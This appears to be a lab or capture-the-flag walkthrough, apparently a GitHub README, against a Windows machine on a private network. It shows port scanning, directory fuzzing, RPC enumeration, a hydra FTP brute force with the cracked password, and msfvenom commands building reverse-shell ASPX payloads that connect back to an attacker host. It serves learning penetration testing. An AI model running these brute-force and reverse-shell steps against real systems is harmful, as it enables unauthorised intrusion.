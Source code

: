 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/8309287c-1280-4c6c-aab7-4751ac0c2279"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/96c23aba-8922-4021-9daf-b626cd3c91aa)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/d28063e8-0e31-4da3-a932-cad363ed36ba)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.180 -oG allports
```
![image](https://github.com/user-attachments/assets/7e2bca7c-88f6-4548-9b2c-7f3bb158aad3)

```bash
nmap -sCV -p21,80,135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.180 -oN targeted
```
![image](https://github.com/user-attachments/assets/1e8cfde2-0bc6-40e0-b81d-bb7623cdf150)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/f5a410d8-838e-4e26-aaf3-5adee82a12f6)

``CRTL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/1ad23d93-a26a-4787-b8b8-d1a4b15e0d24)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.180/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/05ea476b-4c5b-4d69-a7ce-7100fca16a53)

```bash
whatweb https://192.168.1.180
```
![image](https://github.com/user-attachments/assets/a9485353-0de8-4b79-bd39-468b80a2a6aa)

### **we didn't find anything relevant**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
sudo nmap --script "vuln and safe" -p445 192.168.1.180
```
![image](https://github.com/user-attachments/assets/a10cfba9-81df-4752-8595-0cfb87186bdc)

### **not vulnerable to EternalBlue**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"></picture>RPC Protocol</h2>

```bash
rpcclient -U "" -N 192.168.1.180
srvinfo
querydispinfo
enumdomusers
getdompwinfo
```
![image](https://github.com/user-attachments/assets/c1825bc6-33ed-4720-8da0-ee814e5c3b52)

### **we found nothing**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 21</h2>

### **Brute Force**
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt ftp://192.168.1.180
```
![image](https://github.com/user-attachments/assets/f87eb6f4-5b0e-4b8e-bcba-339876bf1268)

USER:    info
<br>
PASSWD:  PolniyPizdec0211

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

### **FTP Connection**
```bash
ftp 192.168.1.180
```
![image](https://github.com/user-attachments/assets/deac17fa-b655-4e1a-b01d-190d7f24df61)

We already have access via port 21, but in order to gain access to the machine we must upload our malicious file to obtain a more stable connection, remember that we are dealing with a windows machine but we do not know if it is 32 or 64 bits so we will have to create two files and upload them.

Win 64bits
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win64.aspx
```

Win 32bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win32.aspx
```
![image](https://github.com/user-attachments/assets/e91d426c-427f-44ce-b8c1-67f685f5f5cd)
